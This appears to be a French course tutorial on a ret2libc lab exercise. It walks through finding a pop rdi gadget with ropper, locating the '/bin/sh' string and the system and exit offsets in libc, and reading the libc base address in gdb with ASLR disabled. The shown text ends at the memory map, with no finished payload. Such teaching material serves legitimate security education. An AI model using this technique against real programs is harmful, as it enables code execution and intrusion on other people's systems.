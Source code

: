 # objectifs: trouver les adresses des varibles:
libc_base_address
ret
pop_rdi
binsh_addr
system_addr
exit_addr

Installer ropper : 

Ropper est principalement écrit en Python. 

Il s'agit d'un outil open-source pour l'analyse de fichiers binaires et la recherche de gadgets ROP (Return-Oriented Programming), développé par Alexander Margaritov

sudo apt update ; sudo apt install ropper

lancer ropper: ropper (Entrée)

pop_rdi :

![poprdi gadget](https://raw.githubusercontent.com/adell2024/intro_securite_info/master/02-ret2libc/images/poprdi.png)


binsh_addr :

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

 1d8678 /bin/sh

system_addr :

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

exit_addr:

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep exit

2760: 00000000000455f0    32 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.2.5

les décalages (offsets) que nous avons découverts ci-dessus seront ajoutés à l'adresse où la libc sera chargée. Puisque l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.

libc_base_address (0x00007ffff7c00000):

gdb ./ret2libc -q

gdb-peda$ start

gdb-peda$ vmmap

Start              End                Perm	Name

0x00400000         0x00401000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00401000         0x00402000         r-xp	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00402000         0x00403000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00403000         0x00404000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00404000         0x00405000         rw-p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00007ffff7c00000 0x00007ffff7c28000 r--p	/usr/lib/x86_64-linux-gnu/libc.so.6 










